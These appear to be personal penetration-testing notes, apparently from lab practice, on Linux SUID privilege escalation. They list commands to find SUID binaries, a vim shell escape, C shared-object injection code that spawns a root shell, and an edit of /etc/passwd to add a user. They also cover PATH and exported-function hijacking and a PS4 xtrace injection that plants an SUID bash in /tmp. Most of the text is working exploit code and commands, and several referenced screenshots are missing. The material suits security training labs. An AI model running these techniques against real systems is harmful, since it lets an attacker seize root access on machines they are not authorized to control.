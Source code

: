 SUID Is *Set Owner User ID*. It's A *Special Permission For Linux Files*. Go See Your Notes For More Info.

To Search For *SUID Set Files On Linux*, Run This Command :-

```sh
find / -type f -perm -4000 2>/dev/null
```
OR
```sh
find / -perm -u=s -type f 2>/dev/null
```


![[Pasted image 20220813134045.png]]

Then, Go To [[GTFOBins]] For *Privilege Escalation*.

##### vim.basic Priv Escalation
```sh
/usr/bin/vim.basic

# Get to the ":" section and then:-
:py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")          # Don't put ":"

# then when it asks for Terminal type?, put xterm
```


---
# Shared Object Injection
If a command tries to open a `.so` file & it can be *written*, it's vulnerable to SO Injection.
To find out :-
```sh
# Replace /usr/local/bin/suid-so with your file
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
strace -e trace=file /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

![[Pasted image 20231031201505.png]]
The <mark style="background: #FF5582A6;">Highlighted</mark> folder is writable!

So, create the folders first:-
```sh
mkdir /home/user/.config
```

Make a new file in that folder :-
```C
// libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```
OR
```C
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
system(“cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p”);
}
```

```sh
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
```sh
/usr/local/bin/suid-so
```


---
# Privilege Escalation with nano/base64
1) **Using unshadow command & break password hashes**
#unshadow 


2) **Using openssl**
![[Pasted image 20230520133150.png]]
- Add this password with a username to the `/etc/passwd` file.
![[Pasted image 20230520133224.png]]
- Once our user is added (*please note* how `root:/bin/bash` was *used to provide a root shell*) we will need to switch to this user and hopefully should have root privileges.

---
# Priv Esc with Non-Standard Linux Command
## Relative Path Abuse
Go on **ChatGPT** & place all the commands with SUID Bit **Set**. If you find a non-standard Linux Command, Check what the command is doing.

Ex: Here we have, `/usr/bin/menu`
Using **strings** on it we see :-
![[Pasted image 20230616174104.png]]

Command runs `curl` when `1` is pressed, `uname` when `2` is pressed, `ifconfig` when `3` is pressed.

So we **abuse** the [[Path]] Variable so that `/tmp` is the first directory from where these *commands run*.
![[Pasted image 20230616174432.png]]

We copied the `/bin/sh` shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the `/usr/bin/menu` binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of `/usr/sh`, as well as this file being run as root it runs our shell as root!

#### Another Method
```C
// If SUID command is calling service
// service.c
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```
```sh
gcc -o service /home/user/tools/suid/service.c
```


## Absolute Path Abuse
In Bash versions `<4.2-048` it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.
```sh
/bin/bash --version
```

**Example**
```sh
strings /usr/local/bin/suid-env2

# Output
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```

Create a Bash function with the name `/usr/sbin/service` that executes a new Bash shell (using `-p` so permissions are preserved) and export the function:
```sh
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2

# OR

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

---
# Shell Feature Abuse
Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.
Run the `/usr/local/bin/suid-env2` executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:
```sh
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```